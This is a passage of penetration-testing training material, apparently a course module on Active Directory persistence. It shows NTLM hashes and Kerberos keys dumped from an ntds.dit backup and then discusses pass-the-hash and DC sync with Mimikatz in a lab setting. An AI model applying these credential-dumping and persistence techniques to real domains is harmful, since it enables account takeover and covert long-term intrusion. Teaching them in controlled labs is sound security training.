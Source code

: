 ```
jen:1124:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
CLIENT76$:1129:aad3b435b51404eeaad3b435b51404ee:6f93b1d8bbbe2da617be00961f90349e:::
[*] Kerberos keys from ntds.dit.bak
Administrator:aes256-cts-hmac-sha1-96:56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc
Administrator:aes128-cts-hmac-sha1-96:3d58eb136242c11643baf4ec85970250
Administrator:des-cbc-md5:fd79dc380ee989a4
DC1$:aes256-cts-hmac-sha1-96:fb2255e5983e493caaba2e5693c67ceec600681392e289594b121dab919cef2c
DC1$:aes128-cts-hmac-sha1-96:68cf0d124b65310dd65c100a12ecf871
DC1$:des-cbc-md5:f7f804ce43264a43
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
...
[*] Cleaning up...
```

> Listing 44 - Copying the ntds database to the C: drive

Great! We managed to obtain NTLM hashes and Kerberos keys for every AD user. We can now try to crack them or use as-is in pass-the-hash attacks.

While these methods might work fine, they leave an access trail and may require us to upload tools. An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation.

To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user, using the DC sync method described in the previous Module. This is a less conspicuous persistence technique that we can misuse.

Although most penetration tests wouldn't require us to be covert, we should always evaluate a given technique's stealthiness, which could be useful during future red-teaming engagements.

In this Learning Unit, we explored a few Windows Active Directory persistence techniques that could be employed during penetration testing or red-teaming exercises whose rules of engagement mandate we retain long-term access to the compromised environment.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Lateral Movement in Active Directory - Shadow Copies and Domain Sync - VM Group 1

Lateral Movement in Active Directory - Shadow Copies and Domain Sync - VM Group 2

Lateral Movement in Active Directory - Capstone - VM Group 3

Lateral Movement in Active Directory - Capstone - VM Group 4

#### Labs

1. Start VM Group 1 and repeat the steps discussed in this section. During a shadow copy operation, what is the designated name for the source location from which the *ntds.dit* is copied?


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname